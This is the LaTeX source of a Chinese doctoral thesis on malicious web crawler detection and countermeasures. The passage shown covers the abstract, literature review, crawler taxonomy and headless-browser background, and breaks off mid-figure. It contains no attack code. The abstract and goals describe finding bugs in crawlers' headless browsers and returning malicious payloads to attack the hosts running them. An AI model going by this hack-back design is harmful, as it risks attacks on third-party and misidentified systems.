%% %%=================================================================
%% %% <UTF-8>
%% %% 北航学位论文模板使用样例
%% %% 请将以下文件与此LaTeX文件放在同一目录中.
%% %%-----------
%% %% buaa.cls              : LaTeX宏模板文件
%% %% buaa_mac.cls          : LaTeX宏模板文件(For Mac with XeLaTeX)
%% %% GBT7714-2005.bst      : 国标参考文献BibTeX样式文件2005(https://github.com/Haixing-Hu/GBT7714-2005-BibTeX-Style)
%% %% GBT7714-2015.bst      : 国标参考文献BibTeX样式文件2015(https://github.com/zepinglee/gbt7714-bibtex-style)
%% %% logo-buaa.eps         : 论文封皮北航字样
%% %% head-doctor.eps       : 论文封皮北博士学位论文标题(华文行楷字体替代解决方案)
%% %% head-master.eps       : 论文封皮北学硕学位论文标题(华文行楷字体替代解决方案)
%% %% head-professional.eps : 论文封皮北专硕学位论文标题(华文行楷字体替代解决方案)
%% %% tex/*.tex             : 本模板样例中的独立章节
%% %%-----------
%% %% 请统一使用UTF-8编码.
%% %%=================================================================

%=================================================================
%\documentclass[doctor,privacy,twoside]{buaa}

%% Mac系统请使用buaa_mac,并使用XeLaTeX编译。
\documentclass[doctor,privacy,twoside]{buaa_mac}
\usepackage{listings}
\usepackage{xcolor}
\usepackage{color}
\usepackage{url}
\definecolor{lightgray}{rgb}{.9,.9,.9}
\definecolor{darkgray}{rgb}{.4,.4,.4}
\definecolor{purple}{rgb}{0.65, 0.12, 0.82}

\lstdefinelanguage{JavaScript}{
  keywords={typeof, new, true, false, catch, function, return, null, catch, switch, var, if, in, while, do, else, case, break},
  keywordstyle=\color{blue}\bfseries,
  ndkeywords={class, export, boolean, throw, implements, import, this},
  ndkeywordstyle=\color{darkgray}\bfseries,
  identifierstyle=\color{black},
  sensitive=false,
  comment=[l]{//},
  morecomment=[s]{/*}{*/},
  commentstyle=\color{purple}\ttfamily,
  stringstyle=\color{red}\ttfamily,
  morestring=[b]',
  morestring=[b]"
}

\lstset{
   language=JavaScript,
   backgroundcolor=\color{lightgray},
   extendedchars=true,
   basicstyle=\footnotesize\ttfamily,
   showstringspaces=false,
   showspaces=false,
   numbers=left,
   numberstyle=\footnotesize,
   numbersep=9pt,
   tabsize=2,
   breaklines=true,
   showtabs=false,
   captionpos=b
}


% 可加入额外ctexbook文档类的选项,其将会被传递给ctexbook。
% 例如:\documentclass[doctor,privacy,twoside,fontset=founder]{buaa}
% CTeX在Linux下默认使用Fandol字体,为避免某些生僻字无法显示,在系统
% 已安装方正字体的前提下可通过fontset=founder选项常用方正字体。

%=================================================================
% buaa基于ctexbook模板
% 论文样式参考自《研究生手册--二〇一五年八月》
%======================
% 模板选项:
%======================
% I.论文类型(thesis)

%--------------------
% a.学术硕士论文(master)[缺省值]
% b.专业硕士论文(professional)
% c.博士论文(doctor)
%--------------------
% II.密级(permission)
%--------------------
% a.公开(public)[缺省值]
% b.内部(privacy)
% c.秘密(secret=secret3)
% c.1.秘密3年(secret3)
% c.2.秘密5年(secret5)
% c.3.秘密10年(secret10)
% c.4.秘密永久(secret*)
% d.机密(classified=classified5)
% d.1.机密3年(classified3)
% d.2.机密5年(classified5)
% d.3.机密10年(classified10)
% d.4.机密永久(classified*)
% e.绝密(topsecret=topsecret10)
% e.1.绝密3年(topsecret3)
% e.2.绝密5年(topsecret5)
% e.3.绝密10年(topsecret10)
% e.4.绝密永久(topsecret*)
%--------------------
% III.打印设置(printtype)
%--------------------
% a.单面打印(oneside)[缺省值]
% b.双面打印(twoside)
%--------------------
%=================================================================


%=================================================================
% 开启/关闭引用编号颜色:参考文献,公式,图,表,算法 等……
\refcolor{on}   % 开启: on[默认]; 关闭: off;
% 摘要和正文从右侧开始
\beginright{on} % 开启: on[默认]; 关闭: off;
% 空白页留字
\emptypagewords{[ -- This page is a preset empty page -- ]}

%=================================================================
% buaa模板已内嵌以下LaTeX工具包:
%--------------------
% ifthen, etoolbox, titletoc, remreset, remreset,
% geometry, fancyhdr, setspace, caption,
% float, graphicx, subfigure, epstopdf,
% booktabs, longtable, multirow,
% array, enumitem
% algorithm2e, amsmath, amsthm, listings
% pifont, color, soul, newtxtext, newtxmath
%--------------------
% 请在此处添加额外工具包>>


%=================================================================
% buaa模板已内嵌以下LaTeX宏:
%--------------------
% \highlight{text} % 黄色高亮
%--------------------
% 请在此处添加自定义宏>>


%%=================================================================
% 论文题目及副标题-{中文}{英文}
\Title{恶意网络爬虫检测与对抗\\技术的研究及实现} {Research and implementation of malicious web crawler detection and confrontation technology}
%\Subtitle{版本 \BUAAThesisVer{}}{Version \BUAAThesisVer{}}

% 学科大类,默认工学
% \Branch{工学}

% 院系,专业及研究方向
\Department{计算机学院}
\Major{网络空间安全}
\Feild{网络空间安全}

% 导师信息-{中文名}{英文名}{职称}
\Tutor{李舟军}{Li Zhoujun}{教授}
\Cotutor{何跃鹰}{He Yueying}{高工}

% 学生姓名-{中文名}{英文名}
\Author{张浩凌}{Zhang Haoling}
% 学生学号
\StudentID{SY1706404}

% 中图分类号
\CLC{TP309.2}

% 时间节点-{月}{日}{年}
\DateEnroll{09}{01}{2017}
\DateGraduate{01}{31}{2020}
\DateSubmit{}{}{}
\DateDefence{}{}{}

%%=================================================================
% 摘要-{中文}{英文}
\Abstract{%
随着各类基于大数据和AI的应用兴起,快速廉价地获取大量有效数据的能力,成为互联网时代企业和个人竞争力的体现。因此,网络爬虫在数据收集方面的重要性逐渐凸显出来。但是,恶意爬虫同样给互联网用户和互联网服务提供者带来了巨大的困扰,这些爬虫或者多线程、高并发的请求消耗服务器的带宽和计算资源,或者爬取个人敏感信息、高价值的商业数据用于不法用途。
  
  构建一个成熟有效的反爬虫系统,成为一个亟待解决的问题。但遗憾的是,传统的反爬虫机制过于保守和被动,在漏检率和误检率居高不下的情况下,且往往只能通过单一的反制手段来限制爬虫(如IP封锁,访问频率限制,虚假数据返回等),在反爬虫的对抗中收效甚微。因此,本文的选题有着重要的理论意义和实际的应用价值。本文的主要研究工作和创新点如下:
 \begin{itemize}
\item[1)] 提出了一种充分利用浏览器静态信息和动态指纹信息的session分类方法,即使请求数据中存在对抗样本,也能保证session分类的准确率;
\item[2)] 结合传统单粒度识别方法与session粒度下的检测方法,并引入基于隐式浏览行为的爬虫检测技术,提出了多种粒度下的爬虫检测技术;
\item[3)] 提出了一种新型的爬虫对抗技术,通过动态符号执行、模糊测试以及污点分析等二进制漏洞挖掘方法,挖掘爬虫使用的无头浏览器中的漏洞。并进一步通过返回恶意的攻击载荷,对运行恶意爬虫的主机进行反向攻击;
\item[4)] 结合上述对爬虫检测技术与爬虫对抗技术的研究,实现了一套具有一定完备性和健壮性的反爬虫系统原型(Crawler-Killer),并实验论证了该系统的有效性,最终通过该系统发现了某大型搜索引擎厂商的一枚爬虫高危漏洞。
 \end{itemize}
  }{%
  With the flourish of the Applications based on Big Data and Artificial Intelligence, it has aroused our attention in how to collect numerous valid data rapidly at the least cost, which could be regarded as an aspect of competitive competence both for the individuals and the companies. And thus, the power of the crawlers in collecting data has been highlighted. However, there are plenty of malicious crawlers filling in cyberspace, try to deplete the servers' resource with endless requests concurrently, or theft the sensitive individual's information or commercial data for illegal use.

  Therefore, we are supposed to build up a feasible, active and robust anti-crawling system to stop those malicious crawlers, while most of the contemporary anti-crawling systems are using passive strategies. Those anti-crawling systems could only harness naive mechanism to block the crawlers( such as IP blocking, limit the frequency of requests, or respond with fake data), and that does not seem to be effective under most scenarios. In that case, the topic of the paper will have great value both in theory and reality. The main researching work and contribution in this paper are listed as follows:

\begin{itemize}
\item[1)] We propose a novel session classification method while making full use of both the static information and dynamic fingerprint of the browser, the accuracy could be guaranteed even when the adversarial samples appear;

\item[2)] We implement a crawler detection technique under various granularities. It combines the  crawler detection mechanism under single request and complex sessions, as well as the detection technique based on implicit human behaviors;

\item[3)] We disclose a new-brand anti-crawling mechanism,  utilizing the dynamic symbolic execution, fuzzing, and dynamic taint analysis, to excavate the vulnerabilities of the headless browser binaries of the crawlers. Ultimately, malicious payloads would be generated to feed the crawler to break it up;

\item[4)] We integrate the aforementioned crawler detection and crawler confrontation techniques to build up the prototype of the anti-crawling system called "Crawler Killer". Furthermore, several tests would be conducted to testify its effectiveness, and we are lucky to obtain a critical loophole from a famous searching engine crawler.
\end{itemize}
  
}
% 关键字-{中文}{英文}
\Keyword{%
    恶意爬虫,无头浏览器,爬虫检测,爬虫对抗,模糊测试
  }{%
    malicious crawler, headless browser, crawler detection, crawler confrontation, fuzzing test
}

% 图标目录
\Listfigtab{on} % 启用: on[默认]; 关闭: off;

% 缩写定义 按tabular环境或其他列表环境编写
\Abbreviations{ \centering
\begin{tabular}{cl}
  $W_{ua}$ & User-Agent字段权重 \\
  $M_{ua}$ & User-Agent匹配状态 \\
  $W_{url}$ & URL字段权重 \\
  $M_{url}$ & URL字段匹配状态 \\
  $W_{other}$ & 其余字段权重 \\
  $M_{other}$ & 其余字段匹配状态 \\
  $W_{order}$ & 字段顺序权重 \\
  $M_{order}$ & 字段顺序匹配状态 \\
  $C_{field}$ & HTTP字段数目 \\
\end{tabular}
}


  
%具体使用  
%\begin{tabular}{|bc|tc|tc|}  
%\hline  
%\rowstyle{\bfseries}  
%A & B & C\\  
%simple & ... & ...\\  
%\end{tabular} 

\begin{document}

%%=================================================================
% 标题级别
%--------------------
% \chapter{第一章}
% \section{1.1 小节}
% \subsection{1.1.1 条}
% \subsubsection{1.1.1.1}
% \paragraph{1.1.1.1.1}
% \subparagraph{1.1.1.1.1.1}
%--------------------
%%=================================================================

% 绪论


\chapter{绪论}


%%============================
\section{研究背景及意义}
机器学习、数据挖掘等大量数据依赖型的技术在高速发展的同时,对于相关数据的质和量都提出了更高的要求。网络爬虫,又称网络蜘蛛或者网络机器人,在这样一个数据消费的时代,扮演着数据搬运者和传递者的角色。在其运行的生命周期中,往往会按照开发者预设的策略,爬取指定的URL(Uniform Resource Locator)地址或者URL地址列表,并将获取到的数据处理成标准化的格式\upcite{ddos}。

普通的网络爬虫并没有危害,相反,搜索引擎存储数据的来源都是基于大量分布式网络爬虫爬取得到的结果,网络爬虫在数据传递过程中起到至关重要的重要。但是多线程高并发的失控爬虫,针对网站隐私数据的窃密爬虫,以及不遵守爬虫道德规范的恶意爬虫,都对网络空间健康的生态环境提出了巨大的挑战。

爬虫失控往往是具有多线程行为的通用型爬虫,未能控制其爬行时间间隔,或者因为未添加地址环回检测的处理逻辑,在处理特殊的地址链接时陷入死循环中。失控的爬虫通常给网站的性能资源和带宽资源带来巨大的消耗,甚至会影响正常人类用户的体验,这样的爬虫对网站的影响相当于是DDOS(Distributed Denial of Service)攻击\upcite{thelwall2001web}。每年的三月份,是失控爬虫的高发期,原因正是因为大量的硕士在写论文时会爬取网站数据用于数据挖掘或者机器学习。

此外,部分互联网公司会爬取其他同行的优质数据用于商业用途,在给其竞争对手带来经济效益的损失的同时,还会促进产业内部恶性竞争的循环。例如,马蜂窝网站的用户评论数据涉嫌造假事件。甚至在一些情况下,恶意爬虫甚至会爬取敏感个人信息用于不法用途,例如某大数据公司因非法爬取个人信息被起诉一案。

某些由黑客或者APT(Advanced Persistent Threat)组织控制的爬虫,在爬取某些CMS(Content Management System)系统或者web中间件的版本信息后,会使用相应的攻击向量攻击脆弱主机\upcite{tan2004discovery},给网站服务提供者及使用者造成巨大的损失。
网络空间一直是爬虫与反爬虫战斗的前线,随着反反爬虫技术的不断迭代更新,传统的静态、单一、被动与非实时的反爬虫技术难以与之对抗,或者又因为部署成本和部署带来的性能损失而被束之高阁。

%%============================
\section{国内外研究现状}
  在数据需求不断增加的大数据时代,爬虫技术的发展也日新月异。与此同时,传统单一静态的爬虫识别技术已经无法满足现阶段的需求,研究相关领域的学者也一直在为反爬虫领域提供新的技术和新的思路。

  Guo W等人首先针对传统针对单个HTTP(Hypertext Transfer Protocol)请求进行处理的爬虫识别算法提出新的改进\upcite{guo2005web}。在他们的文章中,他们首先使用了session粒度的爬虫识别算法,重点关注人类访问session与爬虫访问session中对应的URL请求资源类型(样式表,html,图片等)比例不同的特性,并对采集得到的相应日志进行非实时的线下处理,提取出相关特征作为分类依据。这是最早的基于session的反爬虫机制。
  
  Derek Doran在他们的文章中使用了和Guo W等人类似的方法\upcite{doran2012detecting},他们在使用URL请求资源类型比例作为重要特征的同时,引入了离散马尔科夫链的概率模型,并使用该模型得出的概率来判定访问的来源。但是总体而言,该文章提出的模型并没有过多的创新,而且马尔科夫链概率模型的计算过程,需要消耗大量的计算资源,不能够应用在实时的爬虫检测上。
 
   与此同时,为了将爬虫识别模型应用到真实的业务场景中,而不仅仅作为一种离线的验证算法。Andoena Balla等人提出了实时的爬虫识别算法\upcite{balla2011real}。在他们的文章中,他们还引入了如下的session粒度下的特征:(1)head request的百分比 (2)2xx返回状态的比例 (3)3xx返回状态的比例 (4)页面资源的访问比例 (5)夜间访问的比例  (6)访问两个页面之间的平均时间  (7)其他二进制文件请求的比例。
   
   Andoena Balla从session粒度抽取了比较完备的特征,为后来基于session粒度的爬虫识别的相关研究,提供了有价值的参考。但对于如何进行session的分类以及如何处理session过长的问题,该文章并没有提供合格的解决方案。Yi Liu在他们的文章中提出了一种解决session过长问题的方法\upcite{liu2016research}。他们采用了滑动窗口的机制,对每一次处理的HTTP请求做了相关的限制,在最大程度上保证了处理的HTTP请求的相关性,并在一个窗口内使用SVM来区分普通用户和爬虫。此外,他们还以他们的模型为基础,实现了一整套支持实时爬虫检测的系统。但是该文章在session粒度的特征方面,并没有充分利用session中的包含的信息。
 
  Shengye Wan在他的文章中综合了现有的反爬虫技术,提出一个名为PathMarker的模型\upcite{wan2016protecting}。PathMarker会将URL地址信息以及当前访问的用户信息加密,并替换掉原有的URL地址。由此标注每个请求所对应的session,并利用之前的研究中使用的session特征,来区分爬虫和人类。这种方案可以在很长的时间窗口内持续地追踪爬虫在某个网站的爬行轨迹,可以用于分析爬虫的爬行目标和爬行策略,并且在某种程度上可以追踪使用分布式IP池的爬虫群。 PathMarker在session分类良好的情况下能够产生较好的爬虫检测效果,但是其缺点也很明显,需要修改所有返回请求中的所有链接地址,在真实的生产环境下难以提供灵活的部署方案。此外,一旦访问的爬虫使用对抗性的爬虫策略,PathMarker的session分类效果将不再准确,从而影响最终的爬虫识别效果。

  总体而言,现有的反爬虫技术主要注重于爬虫识别技术的发展,对于发现可疑爬虫后的阻断方法,往往是单一的阻断或者使用captcha机制进行验证,无法对恶意爬虫的作者起到威慑的作用。在爬虫识别的主流技术中,单粒度上识别的检测技术,一旦遇到采用字段变异的爬虫,便无法发挥应有的作用。而在session粒度上识别的检测技术,在实时性检测上,往往都有较大的性能消耗。除此之外,大部分的爬虫识别模型都没有考虑到爬虫可能采用的反反爬虫手段,对于一些有着特殊对抗策略的爬虫,其识别效果将大打折扣。如表\ref{tab:anti-crawler-now}所示,是目前主流的反爬虫研究效果的比较。







% 引用参考\ref{tab:papercomponents}

  %  {\bfseries 论文题目} & \multicolumn{1}{c} {\bfseries 实时性} & \multicolumn{1}{c} {\bfseries 静态信息利用}  &  \multicolumn{1}{c} {\bfseries 动态信息利用}  &  \multicolumn{1}{c} {\bfseries 检测粒度} &  \multicolumn{1}{c} {\bfseries 性能损耗} &  \multicolumn{1}{c} {\bfseries 爬虫对抗与爬虫追踪} \\
\centerline{}
\begin{table}[h]
  \caption{已有反爬虫研究效果比较}
  \label{tab:anti-crawler-now}
  \centering
\begin{tabular}{|p{4cm}<{\centering}|p{1cm}<{\centering}|p{3cm}<{\centering}|p{1cm}<{\centering}|p{1.5cm}<{\centering}|p{1cm}<{\centering}|p{1cm}<{\centering}|}
    \hline
     \textbf{论文题目}    &  \textbf{实时性} &  \textbf{静态信息利用}  &  \textbf{动态信息利用} &  \textbf{检测粒度}   &  \textbf{性能损耗} &  \textbf{爬虫对抗} \\
    \hline
    Protecting Web Contents Against Persistent Crawlers                                   & Y   & refer, user agent, cookies                             & N      & session     & 高    & N    \\ 
    \hline
    Web robot detection techniques based on statistics of their requested URL resources   & N   & user agent,URL pattern                                 & N      & 单粒度/session & 高    & N    \\
    \hline
    Research on an anti-crawling mechanism and key algorithm based on sliding time window & Y   & N                                                      & N      & session     & 中    & N    \\ 
    \hline
    Detecting web robots using resource request patterns                                  & N   & N                                                      & N      & session     & 高    & N    \\
    \hline
    Real-time Web Crawler Detection                                                       & Y   & N                                                      & N      & session     & 中    & N    \\
    \hline
    Our paper (Crawler-Killer)                                                               & Y   & user agent, http headers value, http headers key order & Y      & 单粒度/session & 中    & Y    \\
    \hline
    \end{tabular}
\end{table}




\section{研究目标和内容}
本文的研究目标是提出并实现一种新型的针对恶意爬虫的检测和攻击的对抗性技术,用于在爬虫实时访问阶段,对爬虫进行实时监测与阻断,并针对识别出的、具有恶意探测行为和攻击行为的爬虫,在检测其相应的webdriver的类型和版本后,生成相对应的攻击载荷。

在该技术的基础上,本文将实现恶意爬虫识别与攻击系统。该系统的目标功能为:(1)捕获到目标网站的所有访问请求,并实时地将其按照session粒度进行分类;(2)通过不同粒度下的数据分析,检测和识别HTTP请求中出现的爬虫;(3)根据设定阈值,从爬虫session中筛选出恶意行为的爬虫;(4)利用事先生成的攻击载荷攻击恶意爬虫,并收集相应攻击返回。

基于以上研究目标,本文的主要研究内容包括以下四个部分。

\begin{itemize}
\item[1)] 对抗样本下session分类方法的研究:\\
在普通的爬虫和正常的人类访问行为下,针对给定的HTTP request序列进行session分类并不是一个困难的问题。通常我们在某一特定时间段内,将同一IP来源或者使用同一cookie的HTTP request分类为同一个session,但是在存在对抗行为的恶意爬虫面前,这样粗糙的分类方式通常难以获得令人信服的分类结果。参考利用HTTP请求的静态特征以及利用javascript执行得到的动态特征,以此得到一个更加精确的session分类结果,是我们研究关注的重要内容之一。此外,针对一个真实生产环境下收集的实时数据,如何实现实时的session分类处理,以及各类参数和阈值的合理设定,也是我们研究的一部分。

\item[2)] 基于session粒度的爬虫识别与检测:\\
传统基于单个HTTP request的爬虫识别方法,仅仅基于一些HTTP字段的静态特征,很容易使用一些额外的工具和算法对HTTP字段进行变异,从而逃避传统反爬虫程序的检测。因此,我们考虑到从session中额外提取爬虫的特征,并参考原先的静态特征,共同作用于爬虫识别。目前已经有一些论文讨论到基于session的爬虫识别,并给出了相关了session粒度下的爬虫特征\upcite{alnoamany2013access,tan2004discovery,doran2012detecting},但是这些文章提出的一些特征存在一些问题:
一部分特征实时检测的性能开销过大;
一部分特征在数据集中并不显著,或者对恶意爬虫的支持不佳;
因此,通过本次研究,我们还会得到一系列session的特征以及这些特征的相关阈值设定。

\item[3)] 基于隐式浏览行为的爬虫识别: \\
正常的人类浏览行为下,除了访问频率和访问间隔与爬虫存在差异之外,还会存在一部分隐式的浏览行为\upcite{doran2011web}。例如,在相关页面插入一些不在浏览器上渲染但是存在于html代码中的链接,在正常访问下不会被触发,但是如果遇到了爬虫的html link parser,这种URL解析是基于源代码而不是渲染后页面的算法,则可能会被访问,由此我们可以判定访问该链接的请求以及对应的session均是来自于爬虫的。如何能够利用人类隐式的浏览行为,来进行更为精细准确的爬虫识别,也是本研究的重点。

\item[4)] 针对爬虫webdriver的自动化漏洞挖掘技术: \\
一旦识别出恶意爬虫,在此基础使用javascript探测其webdriver版本以及可能存在的漏洞类型,并通过此漏洞生成相应的攻击载荷实现对爬虫的攻击,这是我们系统的最终目的。通过已知的webdriver版本,来生成有效的攻击载荷,我们需要借助于已经成熟的自动化漏洞挖掘技术。虽然单个的webdriver程序体积很大,但是因为我们目标的webdriver往往是开源的。因此,本课题将研究在在获得源代码的前提下,如何对程序功能进行分割或者采用一些其他的简化技术,预防可能出现的路径爆炸问题,并尽可能多地找到一些漏洞。
\end{itemize}


\section{本文的组织结构}
本文的组织结构如下:
第一章为绪论,总体介绍爬虫技术,爬虫检测技术等相关概念,以及研究恶意爬虫对抗技术的重要意义。并总结国内外工业界和学术界针对反爬虫技术的研究现状,并指出目前已经工具及分析方法的局限性,提出本文的研究目标和内容。


第二章为主流爬虫技术的研究部分,通过对已有的爬虫技术的研究,对主流的爬虫依据其特性进行分类。并概述目前爬虫技术中使用的基本爬行策略以及针对现有反爬虫技术发展而来的伪装策略,分析进行爬虫识别过程中的主要挑战和难点。最后重点分析具有动态处理功能的爬虫底层使用的无头浏览器技术及该技术的特性,讨论了针对无头浏览器的对抗技术实施的可能性。

第三章为恶意爬虫检测技术的研究部分,爬虫的检测技术主要从三个方面入手:(1) 单粒度模式下的检测技术 (2)基于session粒度的检测技术  (3)基于隐式浏览行为的检测技术。其中session分类与特征提取是本文的核心研究内容之一。并在第三章的最后,介绍了我们的爬虫检测技术在三个不同数据集上的检测效果。

第四章为恶意爬虫对抗技术的研究部分。重点介绍了三种对抗技术:(1)资源耗尽型的对抗技术 (2)内存破坏型的攻击技术 (3)数据窃取型的攻击技术。爬虫检测技术产生的结果将作为生成对抗策略的依据,对抗策略将决定对抗技术的种类以及相应攻击载荷的生成。

第五章为恶意爬虫对抗系统的实现和评估部分。通过对整个对抗系统运行流程的分析,设计了由四部分组成的具有较强健壮性的恶意爬虫对抗系统,并具体地介绍四部分间协同合作的运作方式。在系统评估部分,使用多策略爬虫工具测试整个系统的识别率和误报率,以及在高并发情况下的性能损失比率,并进一步分析产生这样结果可能的原因。

最后是本文的结论部分,总结全文的工作,对本文仍然存在的不足之处提出了更为深远地思考,同时包含了对未来爬虫、反爬虫技术互相迭代的展望。






\chapter{主流爬虫技术的研究}

根据爬取目标的不同,主流爬虫往往会因地制宜地使用不同的爬行策略和爬行技术,由此产生数以千计的不同种类的爬虫。正因为主流爬虫种类的多样性,现有的爬虫检测技术常常会顾此失彼,在对某些种类的爬虫有着优秀效果的同时,对于新型的爬虫或者基于原先技术改良的爬虫无法获得同样良好的效果。在本章节中,我们将会分析现有的主流爬虫的种类及其技术手段,并在此研究成果的基础上,制定出针对性的检测方案。此外,因为本研究的系统实现及验证实验需要,我们需要构建一套完备的、能够模拟大量真实爬虫的工具,用以测试本文提出的爬虫识别技术与爬虫对抗技术的有效性,本章的研究还将会指导该工具的研发。

\section{爬虫分类}
网络爬虫大致可分为四种。通用网络爬虫,聚焦网络爬虫,增量式网络爬虫和深层网络爬虫\upcite{li2003web}。

\begin{itemize}
\item[1)] 通用爬虫:通用网络爬虫又称全网爬虫(Scalable Web Crawler),主要的爬取对象是大型的门户网站、搜索引擎和大型的Web服务提供者。通常会从一个初始的URL地址开始,以其为爬取的种子,递归地搜索遍历该种子地址下的所有URL地址。
\item[2)] 聚焦式网络爬虫:聚焦网络爬虫(Focused Crawler),又称主题网络爬虫(Topical Crawler)\upcite{zhoulizhu2005}	,是指选择性地爬行那些与预先定义好的主题相关页面的网络爬虫。通常只需要爬取与其感兴趣的主题相关的页面,保存的页面内容数量少,更新快。
\item[3)] 增量网络爬虫:增量式网络爬虫(Incremental Web Crawler)将参照已下载的网页内容,采用增量更新的方式只爬取没有下载或者已经内容发生变化的页面。以较高的访问频次来保证爬取的内容的实时性,但是因其只请求持久化增量的静态内容\upcite{yan2002architectural},所以请求的数据量较少。
\item[4)] 深层网络爬虫:web页面按其存在方式一般分为表层网和深层网。表层网通常可以由搜索引擎检索,以超链接的形式能够到达,Deep Web指的是不能直接检索,隐藏在表单之后的网页\upcite{bergman2001white}。深层网络爬虫(Deep Web Crawler)主要用于爬取普通爬虫无法爬取到的深层网络,通常是提交某些参数(如登录操作)后才能到达的页面\upcite{raghavan2000crawling}。
\end{itemize}




\section{爬虫调度策略与爬行策略}
爬虫的目的是在短时间内尽可能获得最多的高质量数据。当前有五种评估页面质量的机制\upcite{cho2001crawling}:Similarity,Backlink ,Pagerank ,Forwardlink 以及Location。

而为了爬虫的爬取速度,爬虫往往以并行地方式运行,但也引入了如下的问题\upcite{li2003web}:

\begin{itemize}
\item[1)] 重复性:线程增加的同时可能增加页面重复的几率
\item[2)] 通信带宽损耗:分布式爬虫之间的同步通信损耗大量的带宽和计算资源
\end{itemize}


并行运行时,爬虫通常采取如下三种方式\upcite{li2003web}:
\begin{itemize}
\item[1)] 独立运行:所有爬虫独立运行,互不影响,全部爬取完成后,再统一处理爬行资源。
\item[2)] 动态队列分配:使用统一的任务队列分配爬虫的爬取任务,每一次爬虫从任务队列中获取到的爬取任务,都是动态且随机的。
\item[3)] 静态分配:在爬虫任务开始前,事先为所有的爬虫分派爬取的任务,在爬虫爬取过程中不再做额外的修改。
\end{itemize}

对于通用爬虫而言,常用的策略主要有深度优先爬行和广度优先优先爬行两种\upcite{2008lucene}。
\begin{itemize}
\item[1)] 深度优先:将链接深度从低到高排列,依次访问下一级网页链接直到不能深入为止。在完成一个分支网页的爬行任务后,返回上一个链接节点,进一步遍历其他链接。
\item[2)] 广度优先:按目录层次深浅来规划爬行的轨迹,从浅层的web目录开始爬行,低层次的目录爬行完毕后,再深入下一层继续爬行。可以有效的控制爬行的深度,避免无穷深层次分支的情况下无法走出陷阱。
\end{itemize}

聚焦爬虫策略的关键是对访问页面和链接的重要性进行评分,并以此作为页面爬取先后的顺序的参考依据,而不同算法计算出的页面重要性也有所不同,从而导致爬虫爬行轨迹的不同。

\begin{itemize}
\item[1)] 基于内容的爬行策略:Bra在他的论文中提出了Fish-Search算法\upcite{de1994information},以页面内容与爬虫的聚焦主题的相关性作为度量标准。假设存在鱼群,鱼群按照深度优先的策略在爬行空间中巡游,相关度高的分支,鱼群的数量会增加;而相关度低的分支,鱼群的数量会降低。通过这样的机制来保证主要的爬虫资源和时间都能够聚焦在感兴趣的主题上。 
\item[2)] 基于链接结构的爬行策略:Page-rank算法\upcite{menczer2003complementing}主要用于对搜索引擎搜索到的内容进行结果排序,也可以用于评价链接的重要性。在爬虫选取爬行链接时会优先选取Page rank较大的页面中的链接作为优先爬取的对象。
\item[3)] 基于增强学习的爬行策略:Rennie 和 McCallum将增强学习(reinforcement learning)引入聚焦爬虫\upcite{rennie1999using},他们试图通过机器学习找到一组策略,使得在该策略下的激励达到最优解。
\item[4)] 基于语境图的爬行策略:Diligenti提出一种通过建立语境图来描述不同网页之间相关度的算法\upcite{diligenti2000focused}。用大量的数据训练出一个机器学习系统,利用该系统计算不同页面到某一主题页面的距离,以此作为确定访问顺序的参考。
\end{itemize}


\section{无头浏览器技术}
随着反爬虫技术的发展,大部分的网站都通过开启javascript的检查来避免一些静态爬虫的爬取。在第一次访问网站的时候,网站会返回一段经过混淆的javascript,该javascript执行完毕后会在用户的浏览器中设置相应的access key,并在之后所有向该网站发送的请求中添加该access key。同时,网站的服务器端将会拒绝所有不带有access key的所有请求。通过这种方式,web服务提供者可以避免网络中80\%的爬虫请求的骚扰。

为了对抗这种javascript检查的机制,爬虫需要开启对于javascript脚本的支持。而传统的爬虫只有数据获取部分、数据解析的功能,并没有集成javascript执行的功能,因此需要借助于外部的javascript解释执行引擎。而无头浏览器(headless browser)作为一种成熟的解决方案,被爬虫技术广泛地作为javascript的执行引擎。无头浏览器和普通浏览器最大的区别是无头浏览器在启动后不会生成可视的UI界面,所有的javascript执行和画面渲染全部在后端进行,除此之外,无头浏览器和普通的浏览器基本上没有差异。比较著名的headless broswser有chromium以及PhantomJS,而且目前的主流浏览器大都支持headless模式,通过关闭UI和开放相应的操作接口来支持自动化。PhantomJS可以运行大部分主流的操作系统上,使用QtWebKit作为渲染引擎,可以支持各种各样的web标准,包括但不限于:DOM树解析,CSS选择器,JSON数据解析,CANCAS渲染等。

对于具体的headless browser我们可能有着不同的选择,而selenium自动化测试工具,为我们与大部分的headless browser之间的交互提供了编程接口。在selenium升级到2.0之后\upcite{gojare2015analysis},它重点发展了selenium webdriver,由以前的使用selenium server与浏览器通信到使用浏览器自身的webdriver与浏览器进行通信,绕过了javascript沙箱,提升了测试效率和对各个浏览器的兼容性。selenium对外分开放了大量API接口,可以使用各类编程语言控制测试过程。selenium架构图如图\ref{fig:selenium}所示。selenium向下与不同操作系统上的不同浏览器进行交互,向上为用户提供一个可靠的编程接口。


\centerline{}
\begin{figure}[!h]
  \centering
